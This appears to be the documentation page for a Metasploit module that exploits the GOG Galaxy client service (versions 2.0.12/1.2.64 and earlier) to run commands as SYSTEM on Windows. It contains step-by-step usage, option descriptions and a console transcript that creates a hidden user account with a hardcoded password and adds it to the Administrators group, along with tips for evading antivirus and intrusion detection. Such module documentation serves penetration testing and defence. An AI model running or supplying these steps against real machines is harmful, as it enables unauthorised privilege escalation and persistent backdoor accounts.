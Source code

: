 ## Vulnerable Application

GOG Galaxy is a video game management client.  One of its Windows services, *GalaxyClientService*, runs with *SYSTEM* privileges.  In versions 2.0.12 and earlier, and 1.2.64 and earlier, it is possible to communicate with the service and instruct it to execute arbitrary commands as *SYSTEM*.

A vulnerable version need only be installed on the target machine in order to be exploitable.

## Verification Steps

  1. Start *msfconsole*.
  2. Acquire a Meterpreter session.
  3. Do: ```use exploit/windows/local/gog_galaxyclientservice_privesc```
  4. Do: ```set SESSION [insert session number here]```
  5. (Optional) For AV/IDS evasion, modify the default username and password in the ```ARGS``` option.
  6. Do: ```exploit```
  7. Check that the new user is created.
  8. (Optional) To place new user in the local Administrators group, run ```set ARGS "net localgroup Administrators [put username here] /add"``` followed by ```exploit``` again.

## Options

### CMD

The absolute path of the command to execute.

### ARGS

The arguments to pass to the command.

### WORKING_DIR

The initial working directory of the command.

### SESSION

The Meterpreter session number to execute the command in.


## Scenarios
```
> use exploit/windows/local/gog_galaxyclientservice_privesc 
msf5 exploit(windows/local/gog_galaxyclientservice_privesc) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/gog_galaxyclientservice_privesc) > exploit

[*] Started reverse TCP handler on 10.0.2.18:4444 
[*] Attempting to execute "C:\Windows\System32\net.exe user newadmin 0mg*123L0l /add" with SYSTEM privileges...
[!] Warning: default command & args used.  To better evade AV/IDS, consider customizing these next time.
[*] Starting GalaxyClientService...
[*] Service started successfully.
[*] Connecting to service...
[*] Connected to service.  Sending payload...
[+] Command executed successfully!
[+] Hint: to add the new user to the local Administrators group, set the ARGS option to "net localgroup Administrators [user] /add"
[*] Exploit completed, but no session was created.

msf5 exploit(windows/local/gog_galaxyclientservice_privesc) > set ARGS "net localgroup Administrators newadmin /add"
ARGS => net localgroup Administrators newadmin /add
msf5 exploit(windows/local/gog_galaxyclientservice_privesc) > exploit

[*] Started reverse TCP handler on 10.0.2.18:4444 
[*] Attempting to execute "C:\Windows\System32\net.exe net localgroup Administrators newadmin /add" with SYSTEM privileges...
[*] Starting GalaxyClientService...
[*] Service started successfully.
[*] Connecting to service...
[*] Connected to service.  Sending payload...
[+] Command executed successfully!
[+] Hint: to add the new user to the local Administrators group, set the ARGS option to "net localgroup Administrators [user] /add"
[*] Exploit completed, but no session was created.
```

### Version and OS

This exploit works on the Windows version of GOG Galaxy v1.2.64 and earlier, and v2.0.12 and earlier.
